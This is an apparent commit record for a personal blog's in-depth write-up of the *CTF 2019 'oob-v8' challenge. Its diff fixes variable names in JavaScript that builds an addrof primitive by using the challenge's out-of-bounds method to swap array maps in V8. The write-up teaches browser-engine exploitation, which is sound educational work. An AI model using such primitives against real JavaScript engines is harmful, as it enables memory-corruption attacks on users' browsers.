

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2019-12-13-starctf-oob-v8-indepth.markdown, in a window 1280 px wide and 900 px high, scrolled down 10058 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Fixed typos

````diff
--- a/_posts/2019-12-13-starctf-oob-v8-indepth.markdown
+++ b/_posts/2019-12-13-starctf-oob-v8-indepth.markdown
@@ -353,23 +353,23 @@ For now, we can add these to our `exploit.js` script as the `addrof` and `fakeob
 ```javascript
 /// Construct addrof primitive
 var temp_obj = {"A":1};
-var temp_obj_arr = [temp_obj];
+var obj_arr = [temp_obj];
 var fl_arr = [1.1, 1.2, 1.3, 1.4];
 var map1 = obj_arr.oob();
 var map2 = fl_arr.oob();
 
 function addrof(in_obj) {
     // First, put the obj whose address we want to find into index 0
-    temp_obj_arr[0] = in_obj;
+    obj_arr[0] = in_obj;
 
     // Change the obj array's map to the float array's map
-    temp_obj_arr.oob(map2);
+    obj_arr.oob(map2);
 
     // Get the address by accessing index 0
-    let addr = temp_obj_arr[0];
+    let addr = obj_arr[0];
 
     // Set the map back
-    temp_obj_arr.oob(map1);
+    obj_arr.oob(map1);
 
     // Return the address as a BigInt
     return ftoi(addr);
````
